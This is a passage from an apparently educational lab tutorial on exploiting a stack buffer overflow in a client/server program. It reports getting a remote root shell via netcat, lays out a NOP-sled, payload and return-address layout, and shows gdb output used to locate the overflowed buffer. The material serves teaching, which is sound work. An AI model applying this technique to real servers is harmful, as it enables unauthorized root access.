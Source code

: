 ```sh
```
	
So we can see on our netcat listening socket that when we type `whoami` the answer is:
_root_ and not _student_ and yet we launch netcat with _student privilege_. That means that
we have executed a remote shell because we executed the server with root user...
So it's done :-D.
	
## --[ 4 - Writing the exploit

Ok so now that we are our payload (110 bytes). We gonna use it. as we only have
140 bytes to attack the server we have to operate this way:

	 ____________________________________________________________
	| 26 NOPs |      payload (110 bytes     | ret addr (4 bytes) |
	|_________|_____________________________|____________________|

So what we need is to find the address the buffer we exploit. To do this we
gonna use gdb. So let's go :

```sh
    CLIENT SIDE
	
	[student@localhost Documents]$ ./client
	Please select an option:
	1. Time
	2. Date
	1
	The time is 02:12 PM
	Do you wish to continue? (Y/N)
	01234567890123456789012345678901234567890123456789
	01234567890123456789012345678901234567890123456789
	01234567890123456789012345678901234567890123456789
	01234567890123456789012345678901234567890123456789
	01234567890123456789012345678901234567890123456789
	01234567890123456789012345678901234567890123456789
	01234567890123456789
```
```sh
	server :
	[student@localhost Documents]$ ./xstack server
	[student@localhost Documents]$ gdb ./server -q
	Reading symbols from /home/... done
	(gdb) run
	Starting program: /home/student/Documents/server 
	[Thread debugging using libthread_db enabled]
	[New Thread 0x16e7b70 (LWP 10286)]

	Program received signal SIGSEGV, Segmentation fault.
	[Switching to Thread 0x16e7b70 (LWP 10286)]
	0x39383736 in ?? ()
	Missing separate debuginfos, use: debuginfo-
	install glibc-2.12-1.149.el6.i686
	(gdb) x/200xb $esp-250
	0x16e7286:  0xb1  0x00  0xf4  0xf6  0xcc  0x00  0x2b  0x85
								  .
								  .
								  .
	0x16e72e6:  0x00  0x00  0x00  0x00  0x00  0x00  0x00  0x00
	0x16e72ee:  0x00  0x00  0x4c  0x19  0x11  0x00  0x30  0x31
	0x16e72f6:  0x32  0x33  0x34  0x35  0x36  0x37  0x38  0x39
	0x16e72fe:  0x30  0x31  0x32  0x33  0x34  0x35  0x36  0x37
```
